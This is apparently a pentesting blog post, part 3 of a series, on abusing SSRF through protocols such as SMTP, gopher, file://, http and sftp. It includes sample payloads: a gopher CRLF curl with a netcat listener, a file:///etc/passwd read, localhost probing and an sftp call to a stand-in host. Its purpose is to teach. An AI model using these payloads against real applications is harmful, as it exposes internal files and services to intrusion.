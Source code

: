 ```yaml
---
layout: post
published: true
title: Breaking the ssrf protocol Part: 3
tags:
 - ssrf
 - web pentesting
 comments: true

---
```


# protocol and it's types
hey folks? what’s up hope you are well in pandemic First of all i want to apologize for writing article lately because i was busy in making project in python 3soon I will release my tool stay tuned I am not here to advertise my tool XD nor you to see my adverstisment. So in this section i will cover protocol exploitation with ssrf we can exploit protocols like gopher,http,mysql,intranet,smtpetc. to attack on web application and stealing data and abuse web application
This section and upcoming section gonne be on advance level of ssrf if you have any concept related to ssrf first clear it via previous two parts
before diving into the exploiting protocols let’s clear about basic definition and working of these protocol There are lots of protocols but as you know i hate long articles so i cover up only main protocols definition and rest of protocols i leave on you to resarch :)
Protocols And Its Types
Basically what are protocols? protocols are nothing it’s just a set of rules for exchanging data. There are many protocols available for transferring files(ftp), for mailing(smtp), for calling(voip) etc. are used since this article is on exploiting ssrf we will talk about those protocls which are abused by ssrf for exploiting web application

# Exploitation

let’s break these protocols with the help of ssrf ^_^
SMTP(simple mail transfer protocol)- for sending,receiving email
thanx to this guy we have a unique way for exploiting smtp
Probably an obvious SSRF trick for pros but I just figured out:)
```
1. cononnect with SSRF on smtp localhost:25
2 from the first line get the internal domain name 220 http://blabla.internaldomain.com ESMTP Sendmail
3 search http://internaldomain.com on github, find subdomains
4 connect
there are other various techniques for exploiting smtp like creating a payload and host it on server then send mail you can read awesome article
```

2. gopher -
as we all know gopher is very old protocols used for fetching files on webserver but it got very very old since its not used in wide number of applications but with ssrf we can exploit gopher and http as in previous article i said unsanitized data leads to file fetching but why the files are fetched?? just because of these protocols
Gopher exploitation is very vast we can exploit http,redis,telnet,ftp and many more here is a awesome tool which create payloads for these protocols. We can’t cover all gopher exploitation in this article because it won’t possible if i gonna cover it took very much time and article gonna long and long I will explain all exploitation techniques on gopher separately in next article In this article i will depict basic exploitation of gopher if you wanna learn advance level exploitation of gopher you can read it here
```
$gopher://<host>:<port>/<gopher-path>
$ curl gopher://localhost:2222/hello%0agopher

$ nc -lvvp 2222
listening on [any] 2222 …
connect to [127.0.0.1] from localhost [127.0.0.1] 34116
ello
gopher
```
that’s how we do the basic level exploitation of gopher with crlf (carriage return line and feed) we can use gopher to exploit mysql,redis,http,smtp and so on I will show and explain every techinque in Unique article dedicated to gopher exploitation

3.file://
basically it fetches files from external resources we can exploit it with replacing a file with our payload
**www.justfortest.com?php?fetch=file:///etc/passwd**
it will show content of /etc/passwd file which contains system id of admin and user

4.HTTP(hyper text transfer protocol)
I don’t think that it’s a topic of explain XD let’s come at exploitation
**www.justfortest.com?php?url=http://localhost:21**
it will fetch content of localhost to hacker

5.SFTP(secure file transfer protocol)
protocol used in sending files securely
**www.justfortest.com?url=sftp://evul.com:3333**

6.mysql
protocol used between mysqlclient and server
well, i can’t explain better then this read this article
That’s all for today i covered all various protocol for exploiting with the help of ssrf In next article i will do chaining of ssrf with critical and some low level bugs and if there is any mistake or i forgot to mention any important protocol then let me know in comments :)
